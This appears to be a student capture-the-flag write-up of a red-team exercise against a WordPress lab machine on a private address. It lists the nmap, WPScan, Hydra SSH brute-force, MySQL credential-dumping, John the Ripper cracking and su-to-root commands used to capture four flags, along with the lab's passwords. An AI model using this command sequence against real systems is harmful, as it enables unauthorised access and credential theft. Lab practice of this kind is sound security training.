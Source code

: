 ## Red Team: Summary of Operations

### Table of Contents
1. Exposed Services
2. Critical Vulnerabilities
3. Exploitation

### Exposed Services
- Nmap scan results for each machine reveal the below services and OS details:

- Command: $ nmap -sV 192.168.1.110

- This scan identifies the services below as potential points of entry:

**Target 1**
1. Port 22/TCP		Open		SSH
2. Port 80/TCP		Open		HTTP
3. Port 111/TCP		Open		rcpbid
4. Port 139/TCP		Open		netbios-ssn
5. Port 445/TCP		Open		netbios-ssn



### Critical Vulnerabilites
The following vulnerabilities were identified on each target:

**Target 1**

1. User Enumeration (WordPress site)
2. Found the occurrence of simplistic usernames and weak passwords (Hydra Command)
3. Brute forced ssh to gain access in to the system.
4. Secure files are not hidden away.
5. Misconfiguration of User Privileges/ Privilege Escalation


### Exploitation
The Red Team was able to penetrate Target 1 and retrieve the following confidential data:

**Target 1**

**flag1.txt:** {b9bbcb33e11b80be759c4e844862482d}


- Exploit Used:
- WPScan to enumerate users on the Target1 WordPress site.
- Command:
	$ wpscan --url 192.168.1.110/wordpress
	$ wpscan --url 192.168.1.110 --enumerate -u
		
	![](IMAGES/wpscan.png)


- Targeting the user michael
- Small manual Brute Force attack to guess/finds Michael's password.
- First, the user's password is weak and obvious.
- Second, for pratice, Hydra can be used to crack Michaels's password:
	- Command: hydra -l michael -P /usr/share/wordlists/rockyou.txt -vV 192.168.1.110 -t 4 ssh
		    
![](IMAGES/hydra-command-2.png)		


- Capturing Flag1: SSH in as Michael, transvering through directories and files.
- The first Flag was found in /var/www/html folder at root in services.html in a HTML comment below the footer.
	- Commands:
		- ssh michael@192.168.1.110
		- password: michael
		- cd /var/www/html
		- ls -l
		- nano services.html
			
![](IMAGES/flag1.png)
			
            	


**flag2.txt:** {fc3fd5Bdcdad9ab23facac6e9a365e581c33}


Exploit Used

	- The same exploit used to gain flag1.
	- Capturing Flag2: While in SSH in as Michael, Flag2 was also gained.
		- Once again, browsing through the files and directories, Flag2 can be found in /var/www next to the html folder where Flag1 was found. 
		- Commands:
			- ssh michael@192.168.1.110
			- password: michael
			- cd /var/www
			- ls -l
			- cat flag2.txt
		
![](IMAGES/flag2.png)

**flag3.txt:** {afc01ab56b50591e7dccf93122770cd23}

Exploit Used:
- Same exploits to gain Flag1 and Flag2.
- Capturing Flag3: Access the MYSQL database.
	- Discovering the wp-config.php and gaining access to the database credentials as the user Michael, MYSQL when used to explore the database.
- Commands:
	- mysql -u root -p 'R@v3nSecurity' 
	- show databases;
	- use wordpress;
	- select * from wp_posts;
		
![](IMAGES/flag3.png)

**flag4.txt:** {715dea6c055b9fe3337544932F2941ce}

Exploit Used:
- Unsalted password hash and use of the privilege escalation with Python.
- Capture Flag4: Gained user credentials, cracked password with John the Ripper and used Python to gain root privileges.
- Once gaining access to the database credentials as the user Michael from the wp-config.php file, the next step was to lift the username and password hasses using MYSQL.
- The credentials were located in the wp_users table in the wordpress database. The usernames and passwords were copied and saved on the Kali machine in a file call wp_hashes.txt.
	- Commands: 
		- mysql -u root -p'R@v3nSecurity' 
		- show databases;
		- use wordpress;
		- show tables;
		- select * from users;

- On the Kali machine the wp_hashes.txt ran against John the Ripper to crack the hashes.
- Command:
		- john wp_hashes.txt
		
![](IMAGES/steven-password-2.png)
        

- Once the user Steven's password hash was crached, the next step was to SSH in the server as Steven. Under the user Steven, privileges will first be checked, and escalated to root by guessing common root passwords.
	- Commands:
		- ssh steven@192.168.1.110
		- password: pink:84
		- sudo -l
		- su root
		- password: toor
		- find /-iname flag*
		- cat /root/flag4.txt
		
![](IMAGES/flag4.png)
